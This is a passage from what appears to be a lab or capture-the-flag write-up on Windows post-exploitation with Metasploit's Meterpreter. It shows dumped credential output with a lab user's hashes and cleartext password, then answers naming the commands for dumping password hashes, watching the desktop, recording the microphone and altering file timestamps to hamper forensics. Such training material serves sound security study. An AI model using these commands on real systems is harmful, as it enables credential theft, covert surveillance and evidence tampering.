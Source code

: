 ```
Dark      Dark-PC  e52cac67419a9a22ecb08369099ed302  7c4fe5eada682714a036e39378362bab  0d082c4b4f2aeafb67fd0ea568a997e9d3ebc0eb

wdigest credentials
===================

Username  Domain     Password
--------  ------     --------
(null)    (null)     (null)
DARK-PC$  WORKGROUP  (null)
Dark      Dark-PC    Password01!

tspkg credentials
=================

Username  Domain   Password
--------  ------   --------
Dark      Dark-PC  Password01!

kerberos credentials
====================

Username  Domain     Password
--------  ------     --------
(null)    (null)     (null)
Dark      Dark-PC    Password01!
dark-pc$  WORKGROUP  (null)
```

#Task 6 Post-Exploitation

Explore post-exploitation actions we can take on Windows.

1. No answer needed

2. What command allows us to dump all of the password hashes stored on the system? We won't crack the Administrative password in this case as it's pretty strong (this is intentional to avoid password spraying attempts)
```
hashdump
```
3. While more useful when interacting with a machine being used, what command allows us to watch the remote user's desktop in real time?
```
screenshare
```
4.  How about if we wanted to record from a microphone attached to the system? 
```
record_mic
```

5. To complicate forensics efforts we can modify timestamps of files on the system. What command allows us to do this? Don't ever do this on a pentest unless you're explicitly allowed to do so! This is not beneficial to the defending team as they try to breakdown the events of the pentest after the fact.
```
timestomp
```
